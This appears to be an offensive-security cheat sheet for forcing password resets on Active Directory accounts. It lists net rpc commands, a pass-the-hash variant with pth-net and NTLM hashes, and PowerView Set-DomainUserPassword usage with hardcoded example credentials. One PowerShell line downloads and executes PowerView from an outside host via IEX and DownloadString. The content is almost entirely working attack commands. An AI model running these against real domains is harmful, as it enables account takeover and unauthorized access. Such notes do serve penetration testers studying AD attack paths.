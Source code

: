 ## If password is known:

````bash
net rpc password jamie -U domain.local/john -S 192.168.210.10
net rpc password <target user> -U <domain/you_user> -S <dc>
````

## PTH:
```bash
pth-net rpc password <target user> "newP@ssword2022" -U "DOMAIN"/"ControlledUser"%"LMhash":"NThash" -S "DomainController"
```

## Powershell from another account if password is known:
````powershell
$SecPassword = ConvertTo-SecureString '!QAZ2wsx' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('zsm\marcus', $SecPassword)

$UserPassword = ConvertTo-SecureString 'Pass123!' -AsPlainText -Force
Set-DomainUserPassword -Identity jamie -AccountPassword $UserPassword -Credential $Cred
````

## Powershell if logged into account:
```powershell
IEX(New-Object Net.WebClient).downloadString('http://192.168.58.50/PowerView.ps1')  

$NewPassword = ConvertTo-SecureString 'Password123' -AsPlainText -Force 

Set-DomainUserPassword -Identity 'backup' -AccountPassword $NewPassword   
```
